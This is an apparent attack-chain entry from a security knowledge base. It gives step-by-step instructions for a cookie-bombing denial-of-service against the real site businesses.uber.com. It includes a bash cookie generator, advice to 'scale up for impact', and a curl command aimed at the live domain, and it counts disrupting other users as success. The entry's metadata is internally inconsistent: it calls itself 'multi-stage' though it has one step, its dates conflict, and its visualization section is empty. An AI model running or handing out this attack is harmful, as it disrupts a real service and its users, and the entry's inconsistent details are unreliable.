

---
tags:
  - dos
  - cookie-bombing
  - resource-exhaustion
  - web
type: attack_chain
tools: []
tactics:
  - '[[Impact]]'
commands:
  - '[[commands/curl-cookie-bomb]]'
platforms:
  - Web
complexity: low
procedures:
  - '[[procedures/Cookie-Bombing-DoS]]'
step_count: 1
techniques:
  - '[[Endpoint Denial of Service]]'
description: >-
  Demonstrates a Denial of Service attack through uncontrolled resource
  consumption by sending HTTP requests with excessive cookies to overwhelm the
  server on businesses.uber.com.
skill_level: novice
impact_level: low
id: efed6d31-0ab2-45cb-8878-a14bfb6cb7a2
created_at: '2025-12-14T17:26:48.175Z'
updated_at: '2025-12-14T17:26:48.175Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Impact]]'
mitre_techniques:
  - '[[Endpoint Denial of Service]]'
---
# DoS via Cookie Bombing on Uber Businesses Portal

Multi-stage attack chain demonstrating a complete attack workflow targeting uncontrolled resource consumption via excessive cookies.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minutes |
| Skill Level | Novice |
| Complexity | Low |
| Impact Level | Low |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- curl (standard HTTP client)

### Target Environment

- Web application (e.g., businesses.uber.com)
- No specific ports required beyond standard HTTPS (443)
- Public network access to the target

### Initial Access Requirements

- No credentials needed
- Direct internet access to the target domain
- No prior access required

## Detailed Attack Procedures

### Step 1: Execute Cookie Bombing
procedure: [[procedures/Cookie-Bombing-DoS]]

**Objective**: Overwhelm the target server by sending an HTTP request containing a large number of cookies, causing excessive resource consumption and temporary Denial of Service.

**Instructions**: Prepare a cookie string with thousands of entries to simulate bombing. Use [[commands/curl-cookie-bomb]] to send the request to the target endpoint:

First, generate a large cookie string (example with 100 cookies; scale up for impact):

```bash
generate_cookies() {
  for i in {1..100}; do
    echo -n "cookie$i=value$i; "
  done
}
COOKIE_STRING=$(generate_cookies)
```

Then send the request:

```bash
curl -H "Cookie: $COOKIE_STRING" https://businesses.uber.com/ -v
```

**Expected Output**: The server responds slowly or times out due to resource exhaustion while parsing the excessive cookies. Verbose output (-v) shows request headers and any response delays.

**Success Indicators**:
- Server response time increases significantly (>10 seconds)
- Error or timeout from the server
- Repeated requests amplify the DoS effect, disrupting service for other users

## Attack Chain Summary

### Key Achievements

1. Successful resource exhaustion via cookie overload
2. Temporary disruption of service availability on the target web application
3. Demonstration of low-severity DoS without authentication

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Endpoint Denial of Service]]

### MITRE ATT&CK Tactics

- [[Impact]]

---
*Last updated: 2023-10-01*
